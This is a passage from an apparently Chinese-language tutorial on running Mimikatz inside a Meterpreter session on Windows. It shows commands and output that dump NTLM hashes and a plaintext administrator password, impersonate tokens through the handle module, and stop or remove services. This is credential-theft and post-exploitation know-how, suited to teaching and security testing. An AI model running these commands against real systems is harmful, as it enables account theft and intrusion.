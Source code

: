 ```

Rid  : 1002
User : SUPPORT_388945a0
LM   : 
NTLM : 771ee1fce7225b28f8aec4a88aea9b6a

meterpreter > mimikatz_command -f sekurlsa::searchPasswords
[0] { Administrator ; WINXP-E95CE571A1 ; SuperSecretPassword }

```

<前面一句命令在密码超过 14 位时 LM 会为空，后一句命令可以得到明文>

## 0x03 其他的模块

* * *

Mimikatz 的一些其他模块包含了很多有用的特性，更完整的特性列表可以在 Benjamin Delpy 的博客 http://blog.gentilkiwi.com/上找到。下面是几个使用实例：

Handle 模块可以用来 list/kill 进程以及模拟用户令牌：

```
meterpreter > mimikatz_command -f handle::
Module : 'handle' identifié, mais commande '' introuvable

Description du module : Manipulation des handles
        list    - Affiche les handles du système (pour le moment juste les processus et tokens)
 processStop    - Essaye de stopper un ou plusieurs processus en utilisant d'autres handles
tokenImpersonate        - Essaye d'impersonaliser un token en utilisant d'autres handles
     nullAcl    - Positionne une ACL null sur des Handles

meterpreter > mimikatz_command -f handle::list
...snip...
  760  lsass.exe                 ->  1004       Token           NT AUTHORITY\NETWORK SERVICE
  760  lsass.exe                 ->  1008       Process 704     winlogon.exe
  760  lsass.exe                 ->  1052       Process 980     svchost.exe
  760  lsass.exe                 ->  1072       Process 2664    fubar.exe
  760  lsass.exe                 ->  1084       Token           NT AUTHORITY\LOCAL SERVICE
  760  lsass.exe                 ->  1096       Process 704     winlogon.exe
  760  lsass.exe                 ->  1264       Process 1124    svchost.exe
  760  lsass.exe                 ->  1272       Token           NT AUTHORITY\ANONYMOUS LOGON
  760  lsass.exe                 ->  1276       Process 1804    psia.exe
  760  lsass.exe                 ->  1352       Process 480     jusched.exe
  760  lsass.exe                 ->  1360       Process 2056    TPAutoConnSvc.exe
  760  lsass.exe                 ->  1424       Token           WINXP-E95CE571A1\Administrator
...snip...

```

Service 模块让你可以 list/start/stop 以及 remove windows 服务：

```
meterpreter > mimikatz_command -f service::
Module : 'service' identifié, mais commande '' introuvable

Description du module : Manipulation des services
        list    - Liste les services et pilotes
       start    - Démarre un service ou pilote
        stop    - Arrête un service ou pilote
      remove    - Supprime un service ou pilote
    mimikatz    - Installe et/ou démarre le pilote mimikatz

meterpreter > mimikatz_command -f service::list
...snip...
        WIN32_SHARE_PROCESS     STOPPED RemoteRegistry  Remote Registry
        KERNEL_DRIVER   RUNNING RFCOMM  Bluetooth Device (RFCOMM Protocol TDI)
```